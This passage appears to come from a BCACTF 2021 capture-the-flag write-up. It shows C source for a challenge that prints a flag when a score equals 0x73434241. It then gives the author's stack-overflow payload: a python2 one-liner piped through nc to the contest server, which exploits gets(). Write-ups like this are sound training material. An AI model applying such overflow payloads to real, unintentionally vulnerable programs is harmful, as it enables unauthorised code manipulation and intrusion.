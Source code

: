 ```c
        puts("You are \"qualified\".");
    else if (score == 4)
        puts("You are \"very well qualified\".");
    else if (score == 5)
        puts("Nice job!");
    else if (score == 0x73434241) {
        puts("Tsk tsk tsk.");
        sleep(2);
        puts("Cheating on the AP® tests is really bad!");
        sleep(2);
        puts("Let me read you the College Board policies:");
        sleep(2);
        
        FILE *fp = fopen("flag.txt", "r");

        if (fp == NULL) {
            puts("AAAA, I lost my notes!");
            puts("You stay here while I go look for them.");
            puts("And don't move, you're still in trouble!");
            puts("[If you are seeing this on the remote server, please contact admin].");
            exit(1);
        }

        int c;
        while ((c = getc(fp)) != EOF) {
            putchar(c);
            usleep(20000);
        }

        fclose(fp);
    }
}

```

I have to overflow the buffer to make the score equal 0x73434241 and if that happens, I get the flag. Once again, `gets()` allows me to overflow the buffer and after playing around with the `print_hex_memory()` function from the Angstrom 2021 CTF, I desgined my payload : `python2 -c 'print("\x00"*76+"\x41\x42\x43\x73")' | nc bin.bcactf.com 49154`.

After injecting this into the server, we get the flag :

![BCACTF 2021 Writeup](/assets/img/ctfImages/2021/bcactf2021/img24.png)
